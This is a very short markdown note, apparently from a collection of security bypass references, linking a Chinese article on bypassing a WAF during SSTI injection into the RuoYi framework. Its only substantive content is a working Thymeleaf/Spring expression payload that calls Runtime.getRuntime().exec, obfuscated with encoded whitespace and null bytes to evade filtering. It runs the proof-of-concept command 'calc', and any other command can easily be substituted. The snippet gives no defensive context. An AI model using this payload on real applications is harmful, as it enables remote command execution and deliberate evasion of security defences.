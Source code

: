 # 绕过文章


+ [记一次实战之若依SSTI注入绕过玄某盾](https://mp.weixin.qq.com/s/7TCZDkfCXlmEhcTb85fw_Q)

```java
__${T%20(%0aRuntime%09).%0dgetRuntime%0a(%09)%0d.%00exec('calc')}__::.x
```
